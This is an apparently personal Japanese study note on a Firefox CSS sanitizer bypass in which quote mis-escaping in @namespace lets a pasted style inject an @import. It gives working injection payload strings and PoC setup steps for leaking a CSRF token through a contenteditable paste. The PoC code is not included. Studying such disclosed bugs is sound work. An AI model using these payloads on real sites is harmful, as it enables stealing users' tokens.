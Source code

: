 # Bypass of CSS Sanitizer via incorrect serialization of CSS @namespace rule.

https://bugzilla.mozilla.org/show_bug.cgi?id=1599181



ブラウザー上でコピーと貼り付けを行うと、Firefoxの場合
貼り付け時に `<style>` をCSSサニタイズする。

サニタイザーは有害コンテンツの有無でサニタイズを実施する。
逆に有害コンテンツがない場合はそのまま貼り付けが行われる。

サニタイズされる際は特定のルールが削除される。

そこで考えられるケースが以下
```
INPUT: *{background:red}
SANITIZED OUTPUT: *{background:red}
これはそのまま表示される
----------

INPUT: @import 'abc';*{background:red}
SANITIZED OUTPUT: * { background: red none repeat scroll 0% 0%; }
@import が禁止され、CSSが書き換えられる
----------

INPUT: @import'abc';@namespace x 'aa';{background:#eee}
SANITIZED OUTPUT: @namespace x url("aa"); { background: rgb(238, 238, 238) none repeat scroll 0% 0%; }
一方、  @namespace は許可されている。namespaceの `x 'aa';` が `x url("aa");` に書き換えられている。
この時点で `url("...")` 構文に書き直してもURL内の引用符がエスケープされない可能性がある（かも）
----------

INPUT: @import'abc';@namespace x 'a"bc';{background:#eee}
SANITIZED OUTPUT: @namespace x url("a"bc"); { background: rgb(238, 238, 238) none repeat scroll 0% 0%; }
namespace のエスケープ引用符が 'a"bc' から "a"bc" という不正なものに書き換わる。
これは任意のCSSルールを注入できることになる。

----------

INPUT: @import'abc';@namespace x 'a"x);@import "data:text/css,{background:blue}";';
SANITIZED OUTPUT: @namespace x url("a"x);@import "data:text/css,{background:blue}";");
@import が実行されないように見える場合がある。ただし、@namespace には現在不正な構文があり、引用符を閉じた直後に x文字がある。
これはCSSパーサによって無視される。
その結果、 @import は CSSの最初の有効なルールとして扱われる。
---------

INPUT: @import'abc';*{background: url('aaa"bbb')}
SANITIZED OUTPUT: * { background: rgba(0, 0, 0, 0) url("aaa"bbb") repeat scroll 0% 0%; }
興味深いことに、同じ問題は、ルールが書き換えられた他のコンテキストでは発生しない。
この例は背景のURLが適切にエスケープされて書き換えられることを示す。
```

## そもそも @namespace / @importって？

### @namespace
https://developer.mozilla.org/ja/docs/Web/CSS/@namespace

これは CSSで使用する XML名前空間を定義する [@規則](https://developer.mozilla.org/ja/docs/Web/CSS/At-rule)

この規則を利用することで、定義ずみの名前空間のみの要素だけにプロパティを当てることができる。

```css
@namespace url(http://example.com/hoge/xhtml);
@namespace svg url(http://example.com/foo/svg);

a {} /* xhtml には名前空間指定がないので、xhtml 領域のみに適用 */

svg|a {} /* これは名前空間 svg における a に適用 */

*|a {} /* これは全ての名前空間の a に適用 */
```

構文は以下
```
/* 既定の名前空間 */
@namespace url(XML-namespace-URL);
@namespace "XML-namespace-URL";

/* 接頭辞つき名前空間 */
@namespace prefix url(XML-namespace-URL);
@namespace prefix "XML-namespace-URL";


形式文法 ----------
@namespace <namespace-prefix>? [ <string> | <url> ];
where 
<namespace-prefix> = <ident>
```


### @import
他のスタイルシートから @charset を除いたスタイル規則をインポートするために使用。

構文は以下
```
@import url;
@import url list-of-media-queries;
@import url supports( supports-query );
@import url supports( supports-query ) list-of-media-queries;
``` 

使用例
```
@import url("fineprint.css") print;
@import url("bluish.css") speech;
@import 'custom.css';
@import url("chrome://communicator/skin/");
@import "common.css" screen;
@import url('landscape.css') screen and (orientation:landscape);
```


## PoC
1. `css-exfiltration-firefox.js` と `vulnerable-page.html` をいくつかのディレクトリに保存します
2. `openssl req -x509 -newkey rsa:2048 -nodes -sha256 -subj '/CN=localhost' -keyout localhost-privkey.pem -out localhost-cert.pem`
3. `npm install express spdy`
4. `node css-exfiltration-firefox.js`

これによってCSRFトークンを発行するページがRUNできる。
このページにはEditorがある。
ここに対して別のページでコピーしたCSSを貼り付けることで対象のCSRF Tokenを奪取できる。

5. Firefoxを開き、https://localhost:3000 と https://127.0.0.1:3000 の両方に移動して、証明書を信頼します。
6. https://localhost:3000 へ移動してPoCとなるCSSをコピー("コピー"をクリック)
7. 脆弱なページに移動し、contenteditableボックスにペーストする
8. CSRFトークンが漏洩する。



### PoCコード
// TODO PoCコードを読んで軽くまとめる

https://bugzilla.mozilla.org/attachment.cgi?id=9111317&action=edit
https://bugzilla.mozilla.org/attachment.cgi?id=9111318&action=edit


